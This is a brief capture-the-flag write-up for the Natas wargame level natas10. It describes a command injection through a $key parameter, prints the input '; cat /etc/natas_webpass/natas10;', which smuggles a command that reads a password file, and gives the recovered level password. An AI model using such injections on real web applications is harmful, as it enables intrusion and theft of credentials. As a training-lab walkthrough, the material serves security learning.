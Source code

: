 # natas10

Command injection.

The $key is the point that could be replaced by our injection code.

Input ; cat /etc/natas_webpass/natas10; and get the password.

Password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu